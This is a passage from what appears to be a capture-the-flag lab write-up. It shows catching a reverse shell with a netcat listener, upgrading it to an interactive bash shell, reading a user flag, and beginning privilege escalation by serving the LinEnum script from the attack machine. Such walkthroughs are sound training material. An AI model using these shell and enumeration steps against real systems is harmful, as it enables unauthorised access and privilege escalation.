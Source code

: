 Set up a listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 1234
```

Send the request in Burp.

![](../images/max/966/1*W5JimPWX2zt9VZTQW28n5g.png)

We get a shell! Let’s upgrade it to a better shell.

```text
python3  -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Let’s see if we can view the _user.txt_ flag.

![](../images/max/722/1*4R6GVJPy9Wi6IMgJdn0M1w.png)

Now we need to escalate privileges.

## Privilege Escalation <a id="a8b3"></a>

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```
